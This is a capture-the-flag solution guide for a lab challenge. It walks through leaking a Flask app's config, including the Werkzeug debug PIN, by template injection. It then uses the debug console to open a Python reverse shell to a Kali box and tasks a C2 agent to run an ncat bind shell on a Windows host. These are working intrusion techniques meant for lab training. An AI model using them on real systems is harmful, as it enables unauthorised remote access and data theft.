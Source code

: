 # I See You Too Solution

## Accessing the Console

- Download the `payload.exe` file from challenge.us/files
- Investigate the payload file by opening in a reverse engineering tool of your choice (ollydebug, IDA, Ghidra)
- Alternately, you can open Wireshark and see the traffic in the Windows box from the payload to the C2 server
- After looking into the payload/traffic, notice it first registers the Agent then enters a while loop looking for tasks and the endpoint /tasks on the IP address 10.5.5.56 and port 1980.
  - This is important for later to obtain the last token
- Visit the index of the server and notice it has a list of endpoints listed
- Visit "/agents"
- Notice that the agent listed in the text notifying you if the agent is online is "None" and takes in a search parameter.
- Enter in the url, "10.5.5.56/agents?search={{config}}"
- You will receive a long config file from a Flask application and notice the last string, WERKZEUG_PIN
- This pin is the first flag but also the password to "10.5.5.56/console"
- This console will give you access via python to the C2 server

## Access to the C2 Server

- Since you have access to the C2 Server, you can either get a reverse shell or navigate to the home directory using python to get the key.
- In this solution guide, I'll elect to just create a reverse shell
- First thing is to set up netcat
- On the kali box, enter the command:
  ```bash
  nc -lnp 8001
  ```
- In the werkzeug console, type in:
  ```python
  import socket, os, pty
  s=socket.socket()
  s.connect((<IP Addr of Kali Box>, 8001))
  [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
  pty.spawn("/bin/sh")
  ```
- You will get a TTY reverse shell on the Kali side
- Navigate to /home/user/user_token.txt and grab the token

## Tasking the Hacked Box

- We're going to take advantage of the task endpoint to get access to the hacked box
- Navigate to /home/user/c2/core
- Investigate listener.py and take note on how tasking works
  - Essentially, the payload has a heartbeat and checks the endpoint if it has a task available
  - The task is just a txt file named "tasks" in the agent's folder located in /home/user/c2/data/listeners/agent/<Name Of Agent>
- Create a task in it to give access to the client
  - In this case, we can give it a task of "powershell ncat -lnp 8002 -e powershell.exe"
  - This will give us a reverse shell in powershell
- Connect to the Windows machine using nc on kali
  - If you haven't already, do an nmap scan on 10.5.5.0/24 to find the machine affected
  - nc <IP of Windows Machine> 8002
- You should get the reverse shell and access to the token located on the Desktop of that machine named "hacked_token"
